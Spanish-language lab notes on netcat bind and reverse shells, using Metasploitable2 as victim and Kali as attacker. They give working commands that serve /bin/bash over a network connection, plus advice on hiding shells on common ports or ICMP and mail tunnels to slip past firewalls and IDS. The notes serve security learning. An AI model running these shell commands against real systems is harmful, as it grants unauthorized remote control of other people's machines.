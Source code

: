 Practica de [[Explotación]]

netcat, llamado mediante el comando nc, es un conjunto de implementaciones, una de las mas modernas por ejemplo es ncat. Las implementaciones pueden establecer comunicaciones entre ellas sin problema.

En ejemplo de bind shell, usaremos msfadmin en metasploitable2 como victima y Kali como atacante.

En la maquina victima lanzamos nc:

``` bash
nc -nlvp 4444 -e /bin/bash
```

-l implica que nc esta en modo escucha 
-p indica el puerto de escucha, en este caso el 4444
-n es para que no haga traduccion de numeros a nombre
-v modo verbose
-e el binario a servir en conexion (salida del binario)

Desde la maquina atacante, iniciamos la bind shell:

``` bash
ncat -nv 192.168.56.102 4444
```


!!! - La terminal que obtenemos con netcat tiende a ser bastante limitada (ej: no tiene autocompletado, no tiene historico de comandos... Es decir, es una terminal **NO INTERACTIVA**), y siempre tendra los privilegios del usuarios que sirvio el escuchador.

Algo a tener en cuenta tambien esque con este tipo de shells inestables, CTRL + C cancelara la sesion en vez de cancelar el comando.

Tambien hay que tener en cuenta que a dia de hoy la mayoria de firewalls cortan las conexiones del exterior, por lo que las bind shells tienden a no funcionar. Por eso se usan las **reverse shell**:

Una reverse shell implica que el primer paquete de la conexion sale de la victima.

Ahora ponemos a la escucha a nuestra maquina atacante (esto tiene un pequeño riesgo, ya que podrian iniciar una bind shell contra nosotros):

``` bash
nc -nlvp 4444
```

Y en la maquina victima iniciamos la conexion, ofreciendo la terminal, esto se puede de hacer de millones de formas distintas (ver InternalAllTheThings (salido de PayloadsAllTheThings)):

``` bash
nc -v 192.168.56.100 4444 -e /bin/bash
```

Una evolucion en ejercicios Red Team seria establecer un sistema C2 para tener conexiones con ejecucion remota de comandos sin depender de una tuberia abierta de forma constante (facilmente detectable por IDS).

En cuanto a que puerto/puertos a utilizar. En caso de bind shell, una que permita que se inicie esa conexion, con la reverse shell ocurre exactamente lo mismo. Por ejemplo el puerto 443, 80, etc. que de normal son usados por servicios comunes. Tambien podriamos optar por crear tuneles con otros protocolos que no sean tcp o udp y utilizar por ejemplo ICMP. Hoy en dia hay canales incluso a traves de protocolos de correo o de sincronizacion de horas.

---


